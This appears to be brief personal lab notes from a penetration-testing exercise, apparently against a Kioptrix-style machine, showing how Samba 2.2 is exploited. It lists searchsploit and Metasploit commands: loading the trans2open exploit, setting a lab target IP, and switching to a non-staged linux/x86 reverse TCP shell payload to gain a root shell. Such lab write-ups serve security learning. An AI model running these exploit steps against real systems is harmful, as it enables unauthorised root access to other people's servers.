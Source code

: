 
- trying trans2open
	```bash
	searchploit samba 2.2
	```
- msfconsole
	```bash
	msfconsole
	search trans2open 
	use 1 ; use exploit/linux/samba/trans2open # equivalent
	options
	set RHOSTS 192.168.57.134
	show targets 
	exploit #fails => default payload is staged
	```
- non staged
	```bash
	# meterpreters shells are nice but these are all staged
	set payload linux/x86/shell_reverse_tcp
	options # default lport = 4444 suspicious since it's known for metasploit
	exploit  # root shell
	
	whoami
	hostname
	```